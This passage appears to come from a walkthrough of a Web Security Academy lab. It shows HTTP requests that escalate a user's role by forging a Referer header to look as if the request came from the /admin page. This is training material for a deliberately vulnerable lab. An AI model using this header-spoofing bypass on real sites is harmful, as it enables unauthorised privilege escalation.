 4. Replaying request to upgrade `wiener` returns `401`
```
GET /admin-roles?username=wiener&action=upgrade HTTP/2
Host: 0a65000a041badf2827a974a006000b6.web-security-academy.net
Cookie: session=GkklYgrP3Yd1DCXTbPMdm43VMfXWZxPh
```
5. Provide a fake `Referer:` header as though the request appears from a privileged location
```
GET /admin-roles?username=wiener&action=upgrade HTTP/2
Host: 0a65000a041badf2827a974a006000b6.web-security-academy.net
Cookie: session=GkklYgrP3Yd1DCXTbPMdm43VMfXWZxPh
...<SNIP>...
Referer: https://0a65000a041badf2827a974a006000b6.web-security-academy.net/admin
```